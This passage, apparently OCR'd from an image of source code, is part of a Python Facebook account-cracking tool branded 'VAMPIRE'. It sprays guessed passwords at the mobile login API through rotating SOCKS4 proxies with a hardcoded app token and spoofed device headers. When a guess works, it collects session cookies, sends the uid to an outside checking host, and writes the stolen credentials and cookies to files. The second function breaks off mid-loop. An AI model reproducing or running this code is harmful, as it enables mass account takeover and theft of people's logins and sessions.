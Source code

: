    sys.stdout.flush()
    try:
        for pas in psd:
            accees_token = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
            pas = rmpassconf(ids,pas)
            prox=random.choice(xvx)
            bro={"http":"socks4://"+prox}
            data = {'adid':str(uuid.uuid4()),'format':'json','device_id':str(uuid.uuid4()),'email':ids,'password':pas,'generate_analytics_claims':'1','community_id':'','cpl':'true','try_num':'1','family_device_id':str(uuid.uuid4()),'credentials_type':'password','source':'login','error_detail_type':'button_with_disabled','enroll_misauth':'false','generate_session_cookies':'1','generate_machine_id':'1','currently_logged_in_userid':'0','locale': 'en_GB','client_country_code': 'GB','fb_api_req_friendly_name':'authenticate','api_key':'62f8ce9f74b12f84c123cc23437a4a32','access_token':accees_token}
            headers = {'User-Agent': f'{R1}()', 'Accept-Encoding': 'gzip, deflate', 'Connection': 'Keep-Alive', 'Content-Type': 'application/x-www-form-urlencoded', 'Host': 'graph.facebook.com', 'X-FB-Net-HNI': str(random.randint(20000, 40000)), 'X-FB-SIM-HNI': str(random.randint(20000, 40000)), 'Authorization': 'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32', 'X-FB-Connection-Type': 'MOBILE.LTE', 'X-Tigon-Is-Retry': 'False', 'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=62f8ce9f74b12f84c123cc23437a4a32', 'x-fb-device-group': '5120', 'X-FB-Friendly-Name': 'ViewerReactionsMutation', 'X-FB-Request-Analytics-Tags': 'graphservice', 'X-FB-HTTP-Engine': 'Liger', 'X-FB-Client-IP': 'True', 'X-FB-Server-Cluster': 'True', 'x-fb-connection-token': '62f8ce9f74b12f84c123cc23437a4a32'}
            url = 'https://graph.facebook.com/auth/login'
            po = requests.post(url,data=data,headers=headers,proxies=bro).text
            q = json.loads(po)
            if 'access_token' in q:
                uid = str(q['uid'])
                abir = random.choice(["\x1b[38;5;196m","\x1b[38;5;208m","\033[1;30m","\x1b[38;5;160m","\x1b[38;5;46m","\033[1;33m","\033[38;5;6m","\033[1;35m","\033[1;36m","\033[1;37m"])
                coki = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                res = requests.get(f"https://rajx.pythonanywhere.com/live?uid={uid}").text
                if res == 'LIVE':
                    print(f" \r\r {red}[{green}VAMPIRE-OK{red}] {green}{uid} {red}| {green}{pas} ") 
                    oks.append(ids)
                    open('/sdcard/VAMPIRE/VAMPIRE-M1-RN-OK.txt','a').write(uid+'|'+pas+'|'+coki+'\n')
                    print(f"\r\r {red}[{green}COOKIE{red}]{green} ={abir} {coki}")
                    break
            elif 'www.facebook.com' in q:
                cps.append(ids)
                print(f"\r\r {green}[{red}VAMPIRE-CP{green}] {uid} {red}|{green} {pas} ")
                open('/sdcard/VAMPIRE/VAMPIRE-RNOM-CP.txt','a').write(ids+'|'+pas+'\n')
            else:continue
        loop+=1
    except Exception as e:
        pass
#---------RANDOM M2
def randm1(ids,psd,tl):
    global loop,oks,cps,xvx
    abir = random.choice(["\x1b[38;5;196m","\x1b[38;5;208m","\033[1;30m","\x1b[38;5;160m","\x1b[38;5;46m","\033[1;33m","\033[38;5;6m","\033[1;35m","\033[1;36m","\033[1;37m"])
    sys.stdout.write(f"\r {red}[{abir}VAMPIRE{red}]-{red}[{cyan}{loop}{red}]-{red}[{green}OK{white}-{green}{len(oks)}{red}]-{red}[{green}{'{:.1%}'.format(loop/int(tl))}{red}]"),
    sys.stdout.flush()
    try:
        for pas in psd:
            accees_token = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
            pas = rmpassconf(ids,pas)
            prox=random.choice(xvx)
            bro={"http":"socks4://"+prox}